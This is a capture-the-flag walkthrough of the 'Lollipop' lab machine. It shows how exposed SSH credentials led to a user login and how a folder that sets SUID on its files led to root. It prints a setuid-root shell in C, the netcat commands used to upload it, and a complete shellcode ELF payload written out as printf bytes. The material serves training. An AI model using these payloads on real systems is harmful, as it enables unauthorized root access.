









# Lollipop

__MACHINE IP__: 10.1.1.47

__DATE__: 29/05/2019

__START TIME__: 11:30 PM


`NMAP`
--------


`dirsearch`
--------



Okay so there are few interesting directories there.

a) `.ssh/` - this contains a password protected private key



b) `passwords.xml` - containing the password



c) For username I tried `mail.php` first but it didn't had anything. But then I got it from `function.php`



Username - `mrl0llipop`
Password - `:3:!4]AFCH:3#D[%`

So now we have all the things to login via ssh.

**Note** - Remember to do `chmod 600 ssh-key` before using it to login

User pwn
---------

Just login and we get the user.



Now let's enumerate the system to find something to exploit :smirk:

System enumeration
------------------

I tried to make a new file to copy paste the content of `LinEnum` but we don't have permission to make new files. So we'll have to enumerate manually.

Tried looking for cron jobs and other stuff but nothing interesting. Then I decided to look for `SUID files.



Okay got nothing in those suid's. After looking around for a while I found a folder named `suided_binaries`. That folder had a special property, if we put any file in it, it will change that file to SUID meaning that file will be listed when we'll  use command like `find / -perm -u=s -type f 2>/dev/null`

This thing is more than exploitable.

Priv escalation
---------------

At first I tried the following things

```python
#!usr/bin/python
import os
os.system("/bin/sh")
```

then

```python
#!usr/bin/python
with open("/root/root.txt", "r") as f:
    print(f.read())
```

then

```bash
cat /root/root.txt
```

But all of these either gave `permission denied` error or spwaned a local user shell.

After lot of looking around I decided to see what's going on so I edited my bash script to

```bash
cat /root/root.txt

whoami

id
```
and I got the following



It shows that the file is owned by root but `whoami` command gives `mrl0llipop`
Later I came to know what was happening `setuid/getuid` doesn't work for `bash` script or `interpreted` languages.

Thanks to @uafio and __@pusher__ for that.

Read: https://unix.stackexchange.com/questions/247771/why-wont-this-example-of-setuid-work

So I can make a binary file and upload the file.

```c
int main(void)
{
   setgid(0);
   setuid(0);
   execl("/bin/sh","sh",0);
}
```

I would've written this code but thanks to __@enio__ he just provided me with the code.

So I compiled the binary and used netcat for uploading the file. How?

**On Machine**

```bash
nc -l -p 1234 -q 1 > binary < /dev/null
```

**On you system**

```bash
cat binary | nc 10.1.1.47 1234
```

Run the binary and you'll get a root shell. Get that damn flag :smile:




***

There is another way to do the priv escalation. You can use `pwntools` to generate the binary file payload and run that to get the shell.

```python
from pwn import *
import pwnlib
context.arch = 'amd64'
pwnlib.asm.make_elf(asm(pwnlib.shellcraft.amd64.linux.sh()))
```
and use the output on the machine like

```bash
$ printf '\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00>\x00\x01\x00\x00\x00\xb0\x00`\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\xf8\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x008\x00\x02\x00@\x00\x03\x00\x02\x00\x01\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`\x00\x00\x00\x00\x00\x00\x00`\x00\x00\x00\x00\x00\xe1\x00\x00\x00\x00\x00\x00\x00\xe1\x00\x00\x00\x00\x00\x00\x00\x00\x00 \x00\x00\x00\x00\x00Q\xe5td\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05\x00\x00.shstrtab\x00.shellcode\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0b\x00\x00\x00\x01\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\xb0\x00`\x00\x00\x00\x00\x00\xb0\x00\x00\x00\x00\x00\x00\x001\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe1\x00\x00\x00\x00\x00\x00\x00\x16\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' > pwn
$ chmod +x pwn
```
wait a bit and then run it
```
mrl0llipop@Lollip0p:/suided_binaries$ ./pwn
# whoami
root
```




Thanks to @Grazfather for this method.

__End Date__: 31/05/2019

__End Time__: 12:35 AM
